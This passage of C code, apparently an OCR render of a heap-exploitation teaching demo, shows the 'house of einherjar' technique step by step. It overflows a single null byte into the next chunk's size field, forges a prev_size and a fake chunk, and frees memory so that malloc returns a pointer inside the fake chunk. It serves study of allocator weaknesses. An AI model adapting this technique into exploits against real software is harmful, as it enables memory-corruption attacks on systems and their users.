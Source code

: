 ```cpp
    printf("bck: %#lx\n", fake_chunk[3]);
    printf("fwd_nextsize: %#lx\n", fake_chunk[4]);
    printf("bck_nextsize: %#lx\n", fake_chunk[5]);

	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	printf("\nWe allocate 0xf8 bytes for 'b'.\n");
	printf("b: %p\n", b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	printf("\nb.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0x100) | prev_inuse = 0x101\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
	printf("b.size: %#lx\n", *b_size_ptr);
    printf("This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    printf("If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");

    // Write a fake prev_size to the end of a
    printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    printf("\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;

    // free b and it will consolidate with our fake chunk
    printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0x200);
    printf("Next malloc(0x200) is at %p\n", d);
}

```